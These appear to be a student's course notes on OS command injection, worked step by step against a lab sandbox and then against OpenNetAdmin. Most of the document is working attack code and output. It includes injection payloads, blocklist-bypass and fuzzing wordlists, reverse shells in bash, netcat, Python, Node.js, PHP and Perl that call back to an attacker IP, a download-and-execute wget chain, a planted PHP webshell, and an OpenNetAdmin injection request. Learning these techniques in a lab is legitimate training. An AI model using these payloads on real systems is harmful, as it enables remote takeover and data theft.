


# Module 13: Command Injection

## Discovery of Command Injection

### Accessing the Command Injection Sandbox

_Start the VPN, the VM, and add IP to hosts._

### Familiarizing Ourselves with the Sandbox

<figure><figcaption><p>Python Ping Output</p></figcaption></figure>

_First command injection payload_

```uri
http://ci-sandbox:80/python/index.py?ip=127.0.0.1|id
```

<figure><figcaption><p>First successful command injection</p></figcaption></figure>

### Where is Command Injection Most Common?

_Vulnerable Code Snippet_

```php
<?php
$IP = $_GET['IP'];

echo "<pre>";
system("ping -c 5 ".$IP);
echo "</pre>";
?>
```

### About the Chaining of Commands & System Calls

_Executing a single command_

```bash
kali@kali:~$ ls -ls  
total 32
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Desktop
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Documents
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Downloads
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Music
4 drwxr-xr-x 2 kali kali 4096 Aug 23 07:12 Pictures
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Public
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Templates
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Videos
```

_Chaining our first commands_


```bash
kali@kali:~$ ls -ls ; id
total 32
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Desktop
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Documents
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Downloads
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Music
4 drwxr-xr-x 2 kali kali 4096 Aug 23 07:12 Pictures
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Public
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Templates
4 drwxr-xr-x 2 kali kali 4096 May 31 03:34 Videos

uid=1000(kali) gid=1000(kali) groups=1000(kali),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),142(kaboxer)
```



In addition to the semicolon, which allows us to chain multiple commands together in one statement, another unique separator for Linux is the _newline_ (\n), which exists in every HTTP request. Its hexadecimal value is 0x0A.


_Chaining with Logical AND (Success)_

```bash
kali@kali:~$ whoami && hostname
kali
kali
```

_Chaining with Logical AND (Failure)_

```bash
kali@kali:~$ foobar && hostname
foobar: command not found
```

_Chaining with Logical OR (Failure)_

```bash
kali@kali:~$ whoami || id      
kali
```

_Chaining with Logical OR (Success)_

```bash
kali@kali:~$ foobar || whoami  
foobar: command not found
kali
```

_Inline Execution Characters_

```bash
`cmd`
$(cmd)
```

_Chaining with inline execution_

```bash
kali@kali:~$ echo "This is an echo statement"
This is an echo statement

kali@kali:~$ echo "This is an `whoami` echo statement"
This is an kali echo statement

kali@kali:~$ echo "This is an $(whoami) echo statement"
This is an kali echo statement
```

## Dealing with Common Protections

### Typical Input Normalization - Sending Clean Payloads

_Starting a Netcat Listener on port 9090_

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
```

_Our Wrapped Payload with No URL Encoding_


```uri
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```


<figure><figcaption><p>Encoding our Payload in Burp Suite's Repeater</p></figcaption></figure>

_Our Encoded Payload result_

```uri
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.51/9090+0>%261'
```

_Our Wrapped Payload with URL Encoding (ready to be sent)_


```bash
kali@kali:~$ curl "http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.51/9090+0>%261'"
```


The above could have just been sent in Burp Suite's Repeater after URL-encoding the request...

_Receiving a root privileged shell_

```bash
...
listening on [any] 9090 ...
connect to [172.16.80.2] from (UNKNOWN) [172.16.80.1] 59993
bash: cannot set terminal process group (19): Inappropriate ioctl for device
bash: no job control in this shell
root@cdee2640ffbf:/#
```

### Typical Input Sanitization - Blocklisted Strings Bypass

<figure><figcaption><p>Blocklisted string</p></figcaption></figure>

_A Null Statement Injection Bypass can be inserted between any characters of our choosing._


This technique also works for more complex payloads like "nc -nlvp 9090", which becomes: n$()c -n$()lvp 9090


_Null Statement Injection into our previous command injection_

```bash
kali@kali:~$ wh$()oami
kali
```

<figure><figcaption><p>Bypassing blocklisted strings with a null statement</p></figcaption></figure>

_A short wordlist to work with wfuzz_

```bash
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

_Fuzzing with our Custom Wordlist_


```bash
kali@kali:~$ wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ
Total requests: 21

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000003:   200        68 L     124 W      1156 Ch     "|id"
000000015:   200        68 L     124 W      1156 Ch     "`id`"
000000018:   200        68 L     124 W      1156 Ch     "$(id)"
000000001:   200        68 L     117 W      1113 Ch     "bogus"
000000012:   200        68 L     124 W      1156 Ch     "FAIL_INTENT||id"
000000011:   200        68 L     124 W      1156 Ch     "FAIL_INTENT|id"
000000008:   200        69 L     120 W      1167 Ch     "FAIL||i$()d"
000000005:   200        68 L     117 W      1113 Ch     "i$()d"
000000002:   200        68 L     124 W      1156 Ch     ";id"
000000017:   200        68 L     124 W      1156 Ch     "$(sleep 10)"
000000014:   200        68 L     124 W      1156 Ch     "`sleep 10`"
000000004:   200        68 L     124 W      1156 Ch     "`id`"
000000020:   200        69 L     120 W      1167 Ch     "FAIL_INTENT|`echo 'aWQK' |base64 -d`"
000000021:   200        69 L     120 W      1167 Ch     "FAIL_INTENT||`echo 'aWQK' |base64 -d`"
000000016:   200        68 L     124 W      1156 Ch     "$(sleep 5)"
000000013:   200        68 L     124 W      1156 Ch     "`sleep 5`"
000000007:   200        69 L     120 W      1167 Ch     "|i$()d"
000000019:   200        79 L     187 W      1647 Ch     ";`echo 'aWQK' |base64 -d`"
000000009:   200        78 L     184 W      1593 Ch     "&&id"
000000006:   200        79 L     187 W      1647 Ch     ";i$()d"
000000010:   200        78 L     184 W      1593 Ch     "&id"

Total time: 0
Processed Requests: 21
Filtered Requests: 0
Requests/sec.: 0
```


_Fuzzing with our Custom Wordlist and a Suppressed Response-Size of 1156 bytes_


```bash
kali@kali:~$ wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 --hh 1156 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ
Total requests: 21

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                 
=====================================================================
000000001:   200        68 L     117 W      1113 Ch     "bogus"                                       
000000005:   200        68 L     117 W      1113 Ch     "i$()d"                                 
000000008:   200        69 L     120 W      1167 Ch     "FAIL||i$()d"        
000000020:   200        69 L     120 W      1167 Ch     "FAIL_INTENT|`echo 'aWQK' |base64 -d`"       
000000021:   200        69 L     120 W      1167 Ch     "FAIL_INTENT||`echo 'aWQK' |base64 -d`"
000000010:   200        78 L     184 W      1593 Ch     "&id"                                        
000000009:   200        78 L     184 W      1593 Ch     "&&id"                                      
000000007:   200        69 L     120 W      1167 Ch     "|i$()d"                                      
000000006:   200        79 L     187 W      1647 Ch     ";i$()d"                  
000000019:   200        79 L     187 W      1647 Ch     ";`echo 'aWQK' |base64 -d`"

Total time: 0
Processed Requests: 21
Filtered Requests: 11
Requests/sec.: 0
```


<figure><figcaption><p>Results in our web browser</p></figcaption></figure>

_Encoding our payload with Base64_

```bash
kali@kali:~$ echo "cat /etc/passwd" |base64
Y2F0IC9ldGMvcGFzc3dkCg==
```

_Our Full and Complete Payload_


```bash
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`
```


<figure><figcaption><p>Bypassed Blocklisted Strings with Base64 Payload</p></figcaption></figure>

### Blind OS Command Injection Bypass

_Attempting to execute the \`id\`command with blind command injection_

```uri
http://ci-sandbox:80/php/blind.php?ip=127.0.0.1;id
```

<figure><figcaption><p>No output from our id command</p></figcaption></figure>

_Capturing the initial time_

```bash
kali@kali:~$ time curl http://ci-sandbox:80/php/blind.php?ip=127.0.0.1
<html>
<head>
<link rel="stylesheet" href="../css/bootstrap.min.css">
<style type="text/css">
body{
  background-color: #121212;
}
.check{
  background-color: #1f1f1f;
  border-radius: 4px;
  padding-top: 34px;
  width: 600px;
  height: 150px;
  align-self: center;
  box-shadow: 5px 5px 5px #0f0f0f;
}
.online{
  color: #00ff4c;
}

.offline{
  color: #ff0000;
}

.noParam{
  color: #FFFFFF;
}

</style>
</head>
<body>


<center>
<div class="check" align="center">
        <pre>
        <h3 class='offline'>[ - ] Host is DOWN </h3>        </pre>
</div>
  
</center>

</body>
</html>

real 0m10.014s
```

_Bypassing blind sanitization wtih sleep for execution verification_

```bash
kali@kali:~$ time curl "http://ci-sandbox:80/php/blind.php?ip=127.0.0.1;sleep%2020"
<html>
<head>
<link rel="stylesheet" href="../css/bootstrap.min.css">
<style type="text/css">
body{
  background-color: #121212;
}
.check{
  background-color: #1f1f1f;
  border-radius: 4px;
  padding-top: 34px;
  width: 600px;
  height: 150px;
  align-self: center;
  box-shadow: 5px 5px 5px #0f0f0f;
}
.online{
  color: #00ff4c;
}

.offline{
  color: #ff0000;
}

.noParam{
  color: #FFFFFF;
}

</style>
</head>
<body>


<center>
<div class="check" align="center">
        <pre>
        <h3 class='offline'>[ - ] Host is DOWN </h3>        </pre>
</div>
  
</center>

</body>
</html>

real	0m30.002s
```

### Extra Mile

_Do the lab._

## Enumeration and Exploitation

### Enumerating Command Injection Capabilities

_Common Linux Capability Checks_

| **Command** | **Used For**                            |
| ----------- | --------------------------------------- |
| wget        | File Transfer                           |
| curl        | File Transfer                           |
| fetch       | File Transfer                           |
| gcc         | Compilation                             |
| cc          | Compilation                             |
| nc          | Shells, File Transfer, Port Forwarding  |
| socat       | Shells, File Transfer, Port Forwarding  |
| ping        | Networking, Code Execution Verification |
| netstat     | Networking                              |
| ss          | Networking                              |
| ifconfig    | Networking                              |
| ip          | Networking                              |
| hostname    | Networking                              |
| php         | Shells, Code Execution                  |
| python      | Shells, Code Execution                  |
| python3     | Shells, Code Execution                  |
| perl        | Shells, Code Execution                  |
| java        | Shells, Code Execution                  |

_Common Windows Capability Checks_

| **Capability** | **Used For**                                            |
| -------------- | ------------------------------------------------------- |
| Powershell     | Code Execution, Enumeration, Movement, Payload Delivery |
| Visual Basic   | Code Execution, Enumeration, Movement, Payload Delivery |
| tftp           | File Transfer                                           |
| ftp            | File Transfer                                           |
| certutil       | File Transfer                                           |
| Python         | Code Execution, Enumeration                             |
| .NET           | Code Execution, Privilege Escalation, Payload Delivery  |
| ipconfig       | Networking                                              |
| netstat        | Networking                                              |
| hostname       | Networking                                              |
| systeminfo     | System Information, Patches, Versioning, Arch, etc.     |

_Custom Linux Capability Wordlist_

```bash
w00tw00t
wget
curl
fetch
gcc
cc
nc
socat
ping
netstat  
ss
ifconfig
ip
hostname
php
python
python3
perl
java
```

_Fuzzing and checking for capabilities with our Custom Wordlist_


```bash
kali@kali:~$ wfuzz -c -z file,/home/kali/capability_checks_custom.txt --hc 404 "http://ci-sandbox:80/php/index.php?ip=127.0.0.1;which FUZZ"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://ci-sandbox:80/php/index.php?ip=127.0.0.1;which%20FUZZ
Total requests: 19

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000006:   200        11 L     69 W       503 Ch      "cc"
000000015:   200        11 L     69 W       510 Ch      "php"
000000018:   200        11 L     69 W       505 Ch      "perl"
000000017:   200        11 L     69 W       508 Ch      "python3"
000000001:   200        10 L     68 W       491 Ch      "w00tw00t"
000000014:   200        11 L     69 W       506 Ch      "hostname"
000000019:   200        10 L     68 W       491 Ch      "java"
000000007:   200        11 L     69 W       499 Ch      "nc"
000000016:   200        11 L     69 W       508 Ch      "python"
000000003:   200        11 L     69 W       505 Ch      "curl"
000000012:   200        11 L     69 W       506 Ch      "ifconfig"
000000011:   200        10 L     68 W       491 Ch      "ss"
000000010:   200        11 L     69 W       504 Ch      "netstat"
000000013:   200        10 L     68 W       491 Ch      "ip"
000000009:   200        11 L     69 W       502 Ch      "ping"
000000004:   200        10 L     68 W       492 Ch      "fetch"
000000005:   200        11 L     69 W       505 Ch      "gcc"
000000008:   200        10 L     68 W       492 Ch      "socat"
000000002:   200        11 L     69 W       506 Ch      "wget"

Total time: 0
Processed Requests: 19
Filtered Requests: 0
Requests/sec.: 0
```


_Enumerated capabilities_

```bash
cc
gcc
php
perl
python
python3
hostname
nc
netstat
curl
wget
ping
ifconfig
```


We highly recommend taking note of the various options available when attempting to gain a reverse shell. PayloadAllTheThings is an excellent resource to learn about these.


### Obtaining a Shell - Netcat

_Starting a Netcat listener_

```bash
nc -nlvp 9090
```

<figure><figcaption><p>Evaluating our execution privileges</p></figcaption></figure>

_Endpoin for our command injection_


```uri
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|/bin/nc%20-nv%20192.168.49.51%209090%20-e%20/bin/bash
```


_A root shell with netcat_

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
connect to [192.168.49.51] from (UNKNOWN) [172.16.80.1] 51321
whoami
root
```


Some versions of Netcat don't have the "-e" option; however, the Netcat binary on Kali Linux has no such restriction.


### Obtaining a Shell - Python

_Python Reverse Shell_


```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.51",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


_Unfolded Python Payload_

```python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.51",9090))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);'
```

_Starting a Netcat Listener on port 9090_

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
```

_Full endpoint with payload in the command injection sandbox_


```uri
http://ci-sandbox/php/index.php?ip=127.0.0.1;python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.51%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```


_Receiving the reverse shell_

```bash
...
listening on [any] 9090 ...
connect to [192.168.49.51] from (UNKNOWN) [172.16.80.1] 51809
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

### Obtaining a Shell - Node.js

_Chained Node.js Reverse Shell_


```javascript
echo "require('child_process').exec('nc -nv 192.168.49.51 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js
```


_The Full Command Injection Endpoint_


```uri
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|echo "require('child_process').exec('nc -nv 192.168.49.51 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js
```


_The full URL-encoded command injection endpoint_


```uri
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|echo%20%22require(%27child_process%27).exec(%27nc%20-nv%20192.168.49.51%209090%20-e%20%2Fbin%2Fbash%27)%22%20%3E%20%2Fvar%2Ftmp%2Foffsec.js%20%3B%20node%20%2Fvar%2Ftmp%2Foffsec.js
```


_Starting a Netcat listener on port 9090_

```bash
kali@kali:!$ nc -nlvp 9090
listening on [any] 9090 ...
```

_Receiving our reverse shell_

```bash
...
listening on [any] 9090 ...
connect to [192.168.49.51] from (UNKNOWN) [172.16.80.1] 52319
whoami
root
```


As additional practice, take note of additional Node payload options available from PayloadAllTheThings.


### Obtaining a Shell - PHP

_PHP Reverse Shell Examples_

```php
php -r '$sock=fsockopen("192.168.49.51",9090);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.49.51",9090);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.49.51",9090);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.49.51",9090);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.49.51",9090);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

_The first half of our PHP Payloads_

```php
php -r '$sock=fsockopen("192.168.49.51",9090);
```

_Various PHP Execution Options_

```php
exec("/bin/sh -i <&3 >&3 2>&3");'
shell_exec("/bin/sh -i <&3 >&3 2>&3");'
system("/bin/sh -i <&3 >&3 2>&3");'
passthru("/bin/sh -i <&3 >&3 2>&3");'
popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

<figure><figcaption><p>Are there any disabled functions?</p></figcaption></figure>


Finding a live system with phpinfo() is rare but not unheard of. It contains a wealth of information and is sometimes left behind by system administrators or web developers.


<figure><figcaption><p>phpinfo(); function and disabled functions</p></figcaption></figure>

_Starting a netcat listener on port 9090_

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
```

_Not encoded endpoing (including our payload)_


```uri
http://ci-sandbox/php/index.php?ip=127.0.0.1;php -r "system(\"bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'\");"
```


_Complete endpoint (including our payload)_


```uri
http://ci-sandbox/php/index.php?ip=127.0.0.1;php%20-r%20%22system(%5C%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.51%2F9090%200%3E%261%27%5C%22)%3B%22
```


_Receiving the reverse shell_

```bash
...
listening on [any] 9090 ...
connect to [192.168.49.51] from (UNKNOWN) [172.16.80.1] 53017
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5bce60aa9510:/var/www/html/php$
```

### Obtaining a Shell - Perl

_Perl Reverse Shell_


```perl
perl -e 'use Socket;$i="192.168.49.51";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


_Perl Reverse Shell Unfolded_

```perl
use Socket;
$i="192.168.49.51";
$p=9090;

socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));

if(connect(S,sockaddr_in($p,inet_aton($i)))) {
     open(STDIN,">&S");
     open(STDOUT,">&S");
     open(STDERR,">&S");
     exec("/bin/sh -i");
}
```

_Full URL Encoded Endpoint_


```uri
http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.49.51%22%3B%24p%3D9090%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B%27
```


_Starting a netcat listener on port 9090_

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
```

_Receiving the reverse shell_

```bash
...
listening on [any] 9090 ...
connect to [192.168.49.51] from (UNKNOWN) [172.16.80.1] 53590
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```

### File Transfer

<figure><figcaption><p>File transfer enumeration in the web browser</p></figcaption></figure>

_Placing the nc binary in our Apache2 web root_

```bash
kali@kali:~$ sudo cp /bin/nc /var/www/html/
[sudo] password for kali:

kali@kali:~$
```

_Starting the Apache2 Service_

```bash
kali@kali:~$ sudo service apache2 start
```

_The full payload (unencoded)_


```bash
wget http://192.168.49.51:80/nc -O /var/tmp/nc ; chmod 755 /var/tmp/nc ; /var/tmp/nc -nv 192.168.49.51 9090 -e /bin/bash
```


_The full payload (encoded)_


```bash
wget%20http://192.168.49.51:80/nc%20-O%20/var/tmp/nc%20;%20chmod%20755%20/var/tmp/nc%20;%20/var/tmp/nc%20-nv%20192.168.49.51%209090%20-e%20/bin/bash
```


_Starting a netcat listener on port 9090_

```bash
kali@kali:~$ nc -nlvp 9090
listening on [any] 9090 ...
```

_Receiving the reverse shell_

```bash
...
listening on [any] 9090 ...
connect to [192.168.49.51] from (UNKNOWN) [172.16.80.1] 60052     
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Extra Mile I

_Transfer a different payload, permit the payload, and change the file permissions to execute it for a reverse shell._

### Writing a Web Shell

_Finding our present working directory_

```uri
http://ci-sandbox:80/php/index.php?ip=127.0.0.1;pwd
```

<figure><figcaption><p>Document Root</p></figcaption></figure>

_Using echo to write out our own webshell_


```php
echo+"<pre><?php+passthru(\$_GET['cmd']);+?></pre>"+>+/var/www/html/webshell.php
```


_Writing our own webshell_


```uri
http://ci-sandbox:80/php/index.php?ip=127.0.0.1;echo+%22%3Cpre%3E%3C?php+passthru(\$_GET[%27cmd%27]);+?%3E%3C/pre%3E%22+%3E+/var/www/html/webshell.php
```


<figure><figcaption><p>Webshell confirmation</p></figcaption></figure>

<figure><figcaption><p>Change Directory and Listing Contents</p></figcaption></figure>

<figure><figcaption><p>Contents of the web root</p></figcaption></figure>


This limitation of web shells is why we always try to leverage them to acquire a full reverse shell.


### Extra Mile II

<details>

<summary><em>What are the three world writable directories (permissions of 777 or rwx) with which we can write to, execute from, and read from in Linux Operating Systems? It's useful to know these if we ever need to write out to the file system.</em></summary>

* `/tmp/`
* `/var/tmp/`
* `/dev/shm/`

</details>

## Case Study - OpenNetAdmin (ONA)

### Accessing OpenNetAdmin

_Start the VPN, VM, and add the IP to your hosts file._

### Discovery and Assessment

<figure><figcaption><p>OpenNetAdmin Landing Page</p></figcaption></figure>

<figure><figcaption><p>Logged in as Administrator</p></figcaption></figure>


More often than not, if an exploit requires authentication, a low-privileged user (or even a guest user) will suffice for successful exploitation.


<figure><figcaption><p>ONA Search Functionality</p></figcaption></figure>

<figure><figcaption><p>Examining the Nmap Functionality</p></figcaption></figure>

<figure><figcaption><p>ONA Reports Section</p></figcaption></figure>

<figure><figcaption><p>Discovery of Ping Functionality</p></figcaption></figure>

<figure><figcaption><p>Ping Results Window</p></figcaption></figure>

### Exploitation

<figure><figcaption><p>Activating the Intercept Feature of Burp Suite</p></figcaption></figure>

<figure><figcaption><p>Initial Request of Ping in Burp Suite</p></figcaption></figure>

<figure><figcaption><p>The Second Request of "Ping to Verify"</p></figcaption></figure>

<figure><figcaption><p>Analysis of Request in the Repeater Tab</p></figcaption></figure>

_Full POST Data Payload attempting command injection_


```uri
xajax=window_submit&xajaxr=1632763728103&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E172.24.0.2;id&xajaxargs[]=ping
```


<figure><figcaption><p>Introduction of our Payload into Repeater</p></figcaption></figure>

<figure><figcaption><p>Validation of command injection</p></figcaption></figure>
